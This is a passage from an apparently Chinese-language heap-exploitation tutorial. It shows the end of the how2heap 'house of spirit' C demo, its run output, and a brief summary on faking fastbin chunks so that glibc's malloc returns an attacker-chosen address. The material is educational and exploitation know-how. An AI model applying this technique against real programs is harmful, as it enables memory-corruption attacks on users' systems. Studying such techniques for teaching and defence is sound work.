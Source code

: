```c
	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

运行后的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### 小总结

可以看出，想要使用该技术分配 chunk 到指定地址，其实并不需要修改指定地址的任何内容，**关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测**。

## Alloc to Stack

### 介绍
